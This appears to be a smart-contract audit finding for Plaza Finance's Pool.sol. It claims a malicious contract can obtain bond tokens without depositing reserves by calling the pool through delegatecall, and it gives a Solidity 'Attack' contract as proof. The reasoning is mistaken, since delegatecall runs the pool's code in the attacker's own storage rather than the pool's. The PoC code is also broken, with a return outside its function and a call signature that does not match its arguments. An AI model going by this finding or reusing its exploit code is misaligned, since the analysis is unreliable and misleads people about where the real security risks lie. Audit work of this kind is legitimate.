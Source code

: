 Sleepy Mustard Opossum

High

# Reserve tokens can be transferred to a malicious contract, not the pool

### Summary

Users create bond tokens with their reserves deposit. However, a malicious user can receive bond tokens without making any deposits.

### Root Cause

In [Pool.sol](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L192C1-L194C4), anyone can buy bond tokens by depositing their reserve tokens. Unfortunately, not all users are honest. The attacker exploits this by using a malicious contract.

```solidity
 function _create(
    TokenType tokenType,
    uint256 depositAmount,
    uint256 minAmount,
    address onBehalfOf) private returns(uint256) {
    ...
   // Take reserveToken from user
    IERC20(reserveToken).safeTransferFrom(msg.sender, address(this), depositAmount); 
    ...
  }
```

If the attacker uses `delegatecall` with this function, they can successfully receive bond tokens without making a deposit. This occurs because there is no check on the pool balance.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The attacker can receive bond tokens without making any deposits.

### Proof of Concept (PoC)

The attacker can use the following contract:

```solidity
contract Attack is Pool, Test, TestCases {
  address public owner;
  Pool public pool;

  constructor(Pool _pool) {
    owner = msg.sender;
    pool = Pool(_pool);
  }

  function attackPool (
    TokenType tokenType,
    uint256 depositAmount,
    uint256 minAmount
  ) external returns(uint256) {
    (bool success, bytes memory data) = address(pool).delegatecall(abi.encodeWithSignature("create(uint256)", tokenType, depositAmount, minAmount));
  }
  return uint256(data);
}
```

### Mitigation

To mitigate this issue, ensure that tokens are transferred to an indexed address or verify that the change in the pool's reserve token balance is below the `depositAmount`.